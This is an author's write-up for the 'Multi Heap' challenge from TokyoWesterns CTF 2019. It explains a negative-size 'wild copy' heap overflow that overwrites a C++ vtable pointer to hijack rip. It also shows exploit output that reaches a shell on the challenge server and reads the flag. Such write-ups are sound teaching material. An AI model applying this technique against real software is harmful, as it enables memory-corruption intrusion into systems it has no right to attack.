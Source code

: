 # Multi Heap
from TokyoWesterns CTF 2019

## 配布物
* multi\_heap
* libc.so.6

## intended solution
My intended solution use an exploitation technique as known as  _wild copy_.
_wild copy_ was proposed by Google Project Zero.
Original blog post is [here](https://googleprojectzero.blogspot.com/2015/03/taming-wild-copy-parallel-thread.html).

You can input negative integer as a size for copy function because of no checking for it.
A memory copy that the copy size is negative become huge heap overflow and cause a segmentation fault.
If you can use some data on memory before causing the segmentation fault, this heap overflow can be used for exploit.
This challenge was written by C++, so there is a pointer of vtable on heap segment.
You can overwrite the pointer by _wild copy_ then control rip.


Of course, I heard that unintended solution exists.
I didn't notice that, so some teams who found and used it are awesome and smart.

```
% python exploit.py r
[*] '/Users/hama/ctf/making/multi-heap/multi_heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to multiheap.chal.ctf.westerns.tokyo on port 10001: Done
[*] Pwning
[*] libc_base: 0x7f5700fd3000
[*] heap_base: 0x55cd53c44000
[*] Switching to interactive mode
: $ ls
flag
multi_heap
$ cat flag
TWCTF{mulmulmulmultititi}
```


## md5
```
# md5sum ./multi_heap                                                                                                    (git)-[master]
6066b86031b6f286642c231b504c4d1c  ./multi_heap
```
